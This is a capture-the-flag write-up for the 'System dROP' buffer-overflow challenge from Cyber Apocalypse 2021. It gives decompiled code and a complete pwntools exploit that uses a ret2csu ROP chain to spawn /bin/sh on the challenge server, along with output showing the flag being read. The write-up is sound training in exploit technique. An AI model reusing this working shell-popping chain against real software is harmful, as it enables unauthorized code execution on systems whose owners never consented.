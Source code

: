 # Cyber Apocalypse 2021

## System dROP

> In the dark night, we managed to sneak in the plant that manages all the resources. Ready to deploy our root-kit and stop this endless draining of our planet, we accidentally triggered the alarm! Acid started raining from the ceiling, destroying almost everything but us and small terminal-like console. We can see no output, but it still seems to work, somehow..
> 
> This challenge will raise 33 euros for a good cause.
>
> [`pwn_system_drop.zip`](pwn_system_drop.zip)

Tags: _pwn_ _x86-64_ _bof_ _ret2csu_


## Summary

The title suggests, use [SROP](https://en.wikipedia.org/wiki/Sigreturn-oriented_programming).  The flag `CHTB{n0_0utput_n0_pr0bl3m_w1th_sr0p}` also suggests its usage as well, so let's not use it and use a [ret2csu](https://i.blackhat.com/briefings/asia/2018/asia-18-Marco-return-to-csu-a-new-method-to-bypass-the-64-bit-Linux-ASLR-wp.pdf) chain instead.

ret2csu is a _super_ gadget that can call any function _by reference_ and pass up to three parameters.  Very useful for `read` and `execve`.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No canary and no PIE, easy BOF, easy ROP.


### Decompile with Ghidra

```c
undefined8 main(void)
{
  undefined local_28 [32];
  
  alarm(0xf);
  read(0,local_28,0x100);
  return 1;
}
```

That's it, BOF with `read`.  216 (`0x100 - 0x28`) bytes for our payload.

```
long _syscall(long __sysno,...)
{
  long in_RAX;
  
  syscall();
  return in_RAX;
}
```

A free _syscall_ function is also included, not a _win_ function, but we'll take it.

> How to solve this without the free `syscall`: [smol](https://github.com/datajerk/ctf-write-ups/tree/master/nahamconctf2021/smol)


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./system_drop')

payload  = b''
payload += 0x28 * b'A'

# CSU
'''
  4005b0:   4c 89 fa                mov    rdx,r15
  4005b3:   4c 89 f6                mov    rsi,r14
  4005b6:   44 89 ef                mov    edi,r13d
  4005b9:   41 ff 14 dc             call   QWORD PTR [r12+rbx*8]
  4005bd:   48 83 c3 01             add    rbx,0x1
  4005c1:   48 39 dd                cmp    rbp,rbx
  4005c4:   75 ea                   jne    4005b0 <__libc_csu_init+0x40>
  4005c6:   48 83 c4 08             add    rsp,0x8
  4005ca:   5b                      pop    rbx
  4005cb:   5d                      pop    rbp
  4005cc:   41 5c                   pop    r12
  4005ce:   41 5d                   pop    r13
  4005d0:   41 5e                   pop    r14
  4005d2:   41 5f                   pop    r15
  4005d4:   c3                      ret
'''

pop_rbx_rbp_r12_r13_r14_r15 = 0x4005ca
set_rdx_rsi_rdi_call_r12 = 0x4005b0

# read bytes to set rax as 0x3b and setup /bin/sh and pointer to syscall
payload += p64(pop_rbx_rbp_r12_r13_r14_r15)
payload += p64(0) # rbx
payload += p64(1) # rbp to get pass check
payload += p64(binary.got.read) # r12 pointer to function
payload += p64(0) # r13 -> rdi
payload += p64(binary.bss()) # r14 -> rsi
payload += p64(constants.SYS_execve) # r15 -> rdx
payload += p64(set_rdx_rsi_rdi_call_r12)

# call syscall
payload += p64(0) # add rsp,0x8
payload += p64(0) # rbx
payload += p64(1) # rbp to get pass check
payload += p64(binary.bss() + 8) # r12 pointer to function
payload += p64(binary.bss()) # r13 -> rdi
payload += p64(0) # r14 -> rsi
payload += p64(0) # r15 -> rdx
payload += p64(set_rdx_rsi_rdi_call_r12)

if args.REMOTE:
    p = remote('46.101.23.157',31056)
else:
    p = process(binary.path)

p.send(payload + b'A' * (0x100 - len(payload)))
fodder = b'/bin/sh\0' + p64(binary.sym._syscall)
p.send(fodder + (constants.SYS_execve - len(fodder)) * b'A')
p.interactive()
```

From the top down, first we send `0x28` bytes of garbage to get to the return address on the stack (see Ghidra stack diagram).

The first ret2csu calls `read` (by reference, i.e. `binary.got.read`) and passes parameters `0` (stdin), `binary.bss()` as the buffer, and `constants.SYS_execve` (`0x3b`) as the length.

_Once the payload starts_ `read` gladly accepts our input `b'/bin/sh\0' + p64(binary.sym._syscall)` plus padding to `constants.SYS_execve` (`0x3b`).  This will leave `0x3b` in `RAX`, which is what we need for the `execve` syscall, and the BSS will have `/bin/sh\0` followed by the address of `_syscall`.

The second ret2csu calls `_syscall` also by reference (`binary.bss() + 8` (pointer to `_syscall`)) and passes parameters `binary.bss()` (`/bin/sh\0`), `0`, and `0` for `execve`.

With `0x3b` in RAX, and the BSS setup, `_syscall` pops a shell.

> Don't linger around, `cat flag.txt` and get out before `alarm(0xf)` kills you.

Output:

```
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/cyberapocalypsectf2021/system_drop/system_drop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 46.101.23.157 on port 31056: Done
[*] Switching to interactive mode
$ cat flag.txt
CHTB{n0_0utput_n0_pr0bl3m_w1th_sr0p}
```
